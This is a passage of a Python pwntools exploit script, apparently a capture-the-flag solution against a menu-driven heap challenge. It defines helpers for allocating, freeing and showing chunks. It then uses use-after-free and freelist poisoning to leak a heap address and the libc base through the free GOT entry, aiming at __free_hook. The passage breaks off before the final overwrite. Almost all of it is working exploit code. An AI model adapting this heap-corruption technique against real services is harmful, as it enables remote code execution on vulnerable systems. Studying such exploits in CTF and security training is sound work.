 ```python=
    r.recvuntil(':')
    if size == 0:
        pass
    elif len(description) >= size - 1:
        r.send(description)
    else:
        r.sendline(description)
    r.recvuntil(':')
    r.sendline(str(severity))

def free(idx):
    r.recvuntil('>')
    r.sendline('3')
    r.recvuntil(':')
    r.sendline(str(idx))

def show(idx):
    r.recvuntil('>')
    r.sendline('4')
    r.recvuntil(':')
    r.sendline(str(idx))
    r.recvuntil('Description: ')
    return r.recvuntil('-----')[:-6]



free_got = 0x0000000000601fa0
free_base = 0x0000000000097950

__free_hook = 0x00000000003ed8e8

add(1, 1, '1', 0x68, 'a', 1) # 0
add(1, 1, '1', 0x68, 'a', 1) # 1
add(1, 1, '1', 0x68, 'a', 1) # 2
free(2)
free(0)

add(1, 1, '1', 0, '', 1) # 0
add(1, 1, '1', 0, '', 1) # 2
heap = u64(show(0).ljust(8, '\x00')) - 0x1e0
print ('heap : ', hex(heap))

free(0)
add(1, 1, '1', 0, '', 1) # 0
free(1)
free(0)


add(1, 1, '1', 0x68, p64(heap+0x60)+'a'*0x50+p64(0x71), 1) # 0
add(1, 1, '1', 0x68, 'a', 1) # 1
add(1, 1, '1', 0x68, p64(heap+0x60)+'a'*0x50+p64(0x71), 1) # 3

add(1, 1, '1', 0x68, 'a'*8+flat([0x31, 0, 0, free_got]), 1) # 4
libc = u64(show(1).ljust(8, '\x00')) - free_base
print ('libc : ', hex(libc))
__free_hook += libc
print ('__free_hook : ', hex(__free_hook))
free(4)
free(3)
free(0)
add(1, 1, '1', 0, '', 1) # 0
free(2)
free(0)
```